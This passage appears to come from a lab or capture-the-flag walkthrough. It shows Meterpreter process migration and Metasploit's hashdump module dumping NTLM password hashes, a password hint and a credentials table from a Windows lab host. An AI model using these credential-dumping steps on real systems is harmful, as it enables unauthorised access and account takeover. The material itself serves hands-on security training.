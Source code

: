 1. Migrate to this process. This may take several attempts because this process is not very stable. If it fails, we may need to re-run the conversion process or reboot the machine and start again with another process.
   ```bash
   migrate PROCESS_ID
   ```

## Cracking

- With our elevated meterpreter shell, we can run _hashdump_ which will dump all of the passwords on the machine as long as we have the correct privileges to do so.

  ```bash
  meterpreter> hashdump
  Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
  Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
  Jon:1000:aad3b435b51404eeaad3b435b51404ee:ffb43f0de35be4d9917ac0cc8ad57f8d:::
  ```

#### John Via Metasploit

```bash
meterpreter> background
msf5> search hash
post/windows/gather/hashdump
msf5> use post/windows/gather/hashdump
msf5> options
msf5 post(windows/gather/hashdump) > set session 2
session => 2
msf5 post(windows/gather/hashdump) > run
[*] Obtaining the boot key...
[*] Calculating the hboot key using SYSKEY 55bd17830e678f18a3110daf2c17d4c7...
[*] Obtaining the user list and keys...
[*] Decrypting user keys...
[*] Dumping password hints...

Jon:"Nah boi, I ain't sharing nutting with you"

[*] Dumping password hashes...

Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Jon:1000:aad3b435b51404eeaad3b435b51404ee:ffb43f0de35be4d9917ac0cc8ad57f8d:::

[*] Post module execution completed
msf5 post(windows/gather/hashdump) > creds
Credentials
===========

host origin service public private realm private_type JtR Format

---

10.10.150.203 10.10.150.203 445/tcp (smb) administrator aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0 NTLM hash nt,lm
10.10.150.203 10.10.150.203 445/tcp (smb) guest aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0 NTLM hash nt,lm
10.10.150.203 10.10.150.203 445/tcp (smb) jon aad3b435b51404eeaad3b435b51404ee:ffb43f0de35be4d9917ac0cc8ad57f8d NTLM hash nt,lm
```

